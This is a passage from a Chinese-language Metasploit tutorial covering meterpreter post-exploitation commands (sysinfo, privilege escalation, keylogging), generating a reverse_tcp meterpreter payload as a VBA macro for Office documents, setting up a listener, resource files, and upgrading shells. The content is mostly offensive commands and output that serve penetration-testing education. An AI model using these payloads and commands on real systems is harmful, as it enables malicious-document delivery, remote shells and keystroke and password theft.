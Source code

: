 获取系统信息/提权/记录密码：
```
meterpreter > sysinfo
meterpreter > use priv
meterpreter > run post/windows/capture/keylog_recorder
```

### VB脚本注入

适用于只能传输Office文档的情况，将VB脚本注入Word/Excel文档中

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=8080 -e x86/shikata_ga_nai -f vba-exe
```

结果输出宏脚本和数据，按照提示操作即可

在此之前，先建立好监听Handler：

```
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.101; set LPORT 8080; run; exit -y"
```

## 资源文件

`.rc` Resource File 包含一系列命令的脚本文件

example.rc:
```
version
load sounds
show options
```

加载资源文件：
```shell
> msfconsole -r example.rc
```


## 渗透攻击思路

1. 扫描开放端口，获取不同端口对应的服务信息；
2. 找到某个服务的脆弱性，选择Exploit和Payload，参数设置好；
3. Exploit成功后，最好将Shell升级为Meterpreter；


## 后渗透

渗透之后，我们可以获取目标主机内网其他主机的信息，以该主机为跳板继续渗透整个网络，嗅探数据包/修改注册表/建立后门等等

### 升级Shell

有些Exploit只支持普通shell的payload，我们可以通过`sessions -u <id>`升级shell至meterpreter：
```shell
sessions -u 1

[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.122.248:4433 
[*] Sending stage (989032 bytes) to 192.168.122.136
[*] Command stager progress: 100.00% (773/773 bytes)

# wait a while

```